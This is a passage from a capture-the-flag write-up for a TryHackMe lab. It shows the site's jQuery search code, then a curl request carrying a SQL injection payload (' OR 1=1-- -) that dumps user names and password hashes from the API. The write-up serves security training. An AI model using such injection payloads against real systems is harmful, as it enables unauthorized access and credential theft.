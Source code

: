 ```js
        } else if (table_input == "creatures") {
            // console.log("CREATURES")
            
            $.ajax({
                url: `api/${table_input}/search`,
                type: 'POST',
                dataType: "json",
                data: { "nameCreature": `${name_input}` },
                success: function(data) {
                    var list = ''
                    for (var key in data) {
                        for (var key1 in data[key]) {
                            list += '<tr>';
                            list += '<td>' + data[key][key1].idCreature + '</td>';
                            list += '<td>' + data[key][key1].nameCreature + '</td>'
                            list += '<td>' + data[key][key1].passwordCreature + '</td>'
                            list += '</tr>';
                        }
                    }
                    $('#table-search').append(list);
                },
                error: function() {
                    alert("No Callback")
                }
            });
        }
    });


});
```

Looks like the database has a field called `passwordPeople` and `passwordCreature`.

Also, we can see the API is being exposed, which means **we can send requests to the API**:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople="

		[[]]
```

Hmm... What if there is a **SQL Injection** vulnerability?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' OR 1=1-- -"

		[[{"idPeople":"1","namePeople":"Eurycliedes","passwordPeople":"42354020b68c7ed28dcdeabd5a2baf8e"},{"idPeople":"2","namePeople":"Menekrates","passwordPeople":"0b3bebe266a81fbfaa79db1604c4e67f"},{"idPeople":"3","namePeople":"Philostratos","passwordPeople":"b83f966a6f5a9cff9c6e1c52b0aa635b"},{"idPeople":"4","namePeople":"Daedalus","passwordPeople":"b8e4c23686a3a12476ad7779e35f5eb6"},{"idPeople":"5","namePeople":"M!n0taur","passwordPeople":"1765db9457f496a39859209ee81fbda4"}]] 
```
